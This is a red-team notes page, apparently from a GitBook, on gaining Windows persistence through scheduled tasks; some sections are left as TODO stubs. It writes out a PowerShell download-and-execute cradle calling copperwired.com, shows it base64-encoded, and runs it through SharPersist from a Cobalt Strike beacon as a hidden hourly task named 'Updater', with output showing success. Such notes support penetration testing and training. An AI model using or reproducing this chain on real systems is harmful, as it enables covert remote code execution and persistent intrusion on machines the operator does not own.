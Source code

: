 # Scheduled Tasks

TODO: Add scheduled task enumeration. schtask commands, privileges (ability to create tasks for current user), possible hijacks, etc.

## Introduction

Typically an account would have to be an administrator account to schedule task for the system or it would have to be run as the administrator.&#x20;

## Enumerating Task Permissions



## Creating Tasks

Windows Task Scheduler allows us to create tasks that execute on a pre-defined trigger. For example they can be:

* Time of day
* User Login
* Computer Idle
* Every n hours, minutes, seconds

### Building Payload

For this example we will base64 encode our PowerShell payload using -enc (-EncodedCommand)

<pre class="language-powershell"><code class="lang-powershell">PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://copperwired.com/a"))'

<strong>PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
</strong></code></pre>

#### Output:

```powershell
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBjAG8AcABwAGUAcgB3AGkAcgBlAGQAL
gBjAG8AbQAvAGEAIgApACkA
```

### Execute Payload - SharPersist & Cobalt Strike

We can use the `execute-shellcode` command from an existing beacon in CobaltStrike to establish persistence. We'll also have to utilize a tool like [SharPersist](https://github.com/mandiant/SharPersist) as there are no built-in persistence tools.&#x20;

```powershell
beacon> execute-assembly C:\Tools\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc 
SQBFAFgAIAAo...ACgAbgBlAHcALQBvAGkA" -n "Updater" -m add -o hourly

[08/23 05:51:03] [+] received output:

[+] SUCCESS: Scheduled task added 
```

* `-t` is the desired persistence technique.
* `-c` is the command to execute.
* `-a` are any arguments for that command.
* `-n` is the name of the task.
* `-m` is to add the task (you can also `remove`, `check` and `list`).
* `-o` is the task frequency.

### Confirm

We can confirm we successfully created a scheduled task by opening the Task Scheduler.

<figure><img src="../../.gitbook/assets/Screenshot 2024-07-31 at 2.09.43 AM.png" alt=""><figcaption><p>Obviosly just for testing, but can click "Run" and a beacon should pop up.</p></figcaption></figure>
